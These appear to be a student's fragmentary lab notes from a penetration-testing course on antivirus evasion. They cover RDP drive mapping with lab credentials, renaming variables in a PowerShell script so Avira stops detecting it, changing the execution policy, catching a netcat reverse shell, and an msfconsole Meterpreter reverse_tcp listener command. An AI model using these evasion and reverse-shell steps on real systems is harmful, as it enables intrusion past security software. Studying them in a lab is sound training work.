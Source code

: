 ### 14.3.2 Walkthrough

First you turn on the Avira AV app

next  I used this command to open up an RDP and map a drive to drop the binary.exe document in the desktop so the AV can see it
 xfreerdp /v:192.168.215.61 /u:offsec /p:lab /drive:C:\,/home/hollacosta/Downloads            IMPORTANT CMD TO MAP A DRIVE WHILE REMOTING INTO A WINDOWS  COMPUTER

Once dropped, the virus scanner detected it.
Next, created a bypass.ps1 
![[Pasted image 20231017192121.png]]

replaced the "Win32" with "iWin32"
replaced the "sc" with "var1"
replaced the "winFunc" with "var2"
![[Pasted image 20231017192241.png]]
next, dropped the file in Downloads and moved it to the desktop
Opened a Shell prompt and try to run it with no results. Changed the execution policy to be able to run the script
![[Pasted image 20231017192331.png]]
once run and having the nc open, you should be connected!

### 14.3.3 Capstone Exercise #1

![[Pasted image 20231017202017.png]]
![[Pasted image 20231018174525.png]]

![[Pasted image 20231017202440.png]]
Download the 32 .exe file
![[Pasted image 20231018175542.png]]

![[Pasted image 20231018180301.png]]
for this payload, we use the following msfvenom

$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.181;set LPORT 443;run;" ^afd7cb

### 14.3.3 Q3 CAPSTONE EXERCISE #2
to use it, make sure you change the directory
to see the payload list
![[Pasted image 20231018185318.png]]

![[Pasted image 20231018185426.png]]
after creating the bat file, you can use it to download it onto the target while you have a meterpreter rev_tcp listener
use msfvenom interpreter
![[Pasted image 20231018190737.png]]
same principles as the previous capstone


